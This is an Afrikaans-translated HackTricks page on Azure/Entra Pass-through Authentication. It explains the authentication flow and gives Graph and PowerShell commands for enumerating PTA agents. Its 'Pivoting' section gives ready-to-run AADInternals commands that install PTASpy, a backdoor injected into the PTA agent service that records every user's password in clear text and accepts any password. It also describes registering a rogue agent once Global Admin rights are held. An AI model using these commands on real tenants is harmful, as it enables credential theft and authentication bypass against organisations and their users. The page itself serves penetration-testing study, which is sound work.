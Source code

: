 # Az - PTA - Pass-through Authentication

{{#include ../../../../banners/hacktricks-training.md}}

## Basiese Inligting

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-pta) Microsoft Entra pass-through authentication laat jou gebruikers toe om **in te teken op beide plaaslike en wolk-gebaseerde toepassings met dieselfde wagwoorde**. Hierdie funksie bied jou gebruikers 'n beter ervaring - een minder wagwoord om te onthou, en verminder IT-hulplijn koste omdat jou gebruikers minder geneig is om te vergeet hoe om in te teken. Wanneer gebruikers in teken met Microsoft Entra ID, valideer hierdie funksie gebruikers se wagwoorde direk teen jou plaaslike Active Directory.

In PTA **identiteite** is **gesinchroniseer** maar **wagwoorde is nie** soos in PHS.

Die verifikasie word in die plaaslike AD gevalideer en die kommunikasie met die wolk word gedoen deur 'n **verifikasie-agent** wat op 'n **plaaslike bediener** loop (dit hoef nie op die plaaslike DC te wees nie).

### Verifikasievloei

<figure><img src="../../../../images/image (92).png" alt=""><figcaption></figcaption></figure>

1. Om te **log in** word die gebruiker herlei na **Azure AD**, waar hy die **gebruikersnaam** en **wagwoord** stuur
2. Die **bewyse** word **versleuteld** en in 'n **ry** in Azure AD gestel
3. Die **plaaslike verifikasie-agent** versamel die **bewyse** uit die ry en **ontsleutel** dit. Hierdie agent word **"Pass-through authentication agent"** of **PTA agent** genoem.
4. Die **agent** **valideer** die bewys teen die **plaaslike AD** en stuur die **antwoord** **terug** na Azure AD wat, indien die antwoord positief is, die **inlog van die gebruiker voltooi**.

> [!WARNING]
> As 'n aanvaller die **PTA** **kompromitteer**, kan hy die alle **bewyse** uit die ry **sien** (in **duidelike teks**).\
> Hy kan ook **enige bewys** na die AzureAD **valideer** (soortgelyke aanval op Skeleton key).

### Enumerasie

From Entra ID:
```bash
az rest --url 'https://graph.microsoft.com/beta/onPremisesPublishingProfiles/authentication/agentGroups?$expand=agents'
# Example response:
{
"@odata.context": "https://graph.microsoft.com/beta/$metadata#onPremisesPublishingProfiles('authentication')/agentGroups(agents())",
"value": [
{
"agents": [
{
"externalIp": "20.121.45.57",
"id": "4a000eb4-9a02-49e4-b67f-f9b101f8f14c",
"machineName": "ConnectSync.hacktricks-con.azure",
"status": "active",
"supportedPublishingTypes": [
"authentication"
]
}
],
"displayName": "Default group for Pass-through Authentication",
"id": "d372d40f-3f81-4824-8b9e-6028182db58e",
"isDefault": true,
"publishingType": "authentication"
}
]
}
```
Kontroleer of die agent op die on-prem bediener loop:
```bash
Get-Service -Name "AzureADConnectAuthenticationAgent"
```
## Pivoting

As jy **admin** toegang het tot die **Azure AD Connect-server** met die **PTA** **agent** wat loop, kan jy die **AADInternals** module gebruik om 'n **achterdeur** te **invoeg** wat **AL die wagwoorde** wat ingevoer word, sal **valideer** (sodat al die wagwoorde geldig sal wees vir autentisering):
```bash
Install-Module AADInternals -RequiredVersion 0.9.3
Import-Module AADInternals
Install-AADIntPTASpy # Install the backdoor, it'll save all the passwords in a file
Get-AADIntPTASpyLog -DecodePasswords # Read the file or use this to read the passwords in clear-text

Remove-AADIntPTASpy # Remove the backdoor
```
> [!NOTE]
> As die **installasie misluk**, is dit waarskynlik as gevolg van ontbrekende [Microsoft Visual C++ 2015 Redistributables](https://download.microsoft.com/download/6/A/A/6AA4EDFF-645B-48C5-81CC-ED5963AEAD48/vc_redist.x64.exe).

Hierdie backdoor sal:

- 'n Versteekte gids `C:\PTASpy` skep
- 'n `PTASpy.dll` na `C:\PTASpy` kopieer
- `PTASpy.dll` in die `AzureADConnectAuthenticationAgentService` proses inspuit

> [!NOTE]
> Wanneer die AzureADConnectAuthenticationAgent diens herbegin word, word PTASpy “ontlaai” en moet dit weer geïnstalleer word.

> [!CAUTION]
> Nadat **GA bevoegdhede** op die wolk verkry is, is dit moontlik om **nuwe PTA-agent** te **registreer** en kan die **vorige** stappe **herhaal** word om **met enige wagwoord te autentiseer** en ook, **die wagwoorde in duidelike teks te kry.**

### Seamless SSO

Dit is moontlik om Seamless SSO met PTA te gebruik, wat kwesbaar is vir ander misbruik. Kontroleer dit in:

{{#ref}}
seamless-sso.md
{{#endref}}

## References

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta)
- [https://aadinternals.com/post/on-prem_admin/#pass-through-authentication](https://aadinternals.com/post/on-prem_admin/#pass-through-authentication)

{{#include ../../../../banners/hacktricks-training.md}}
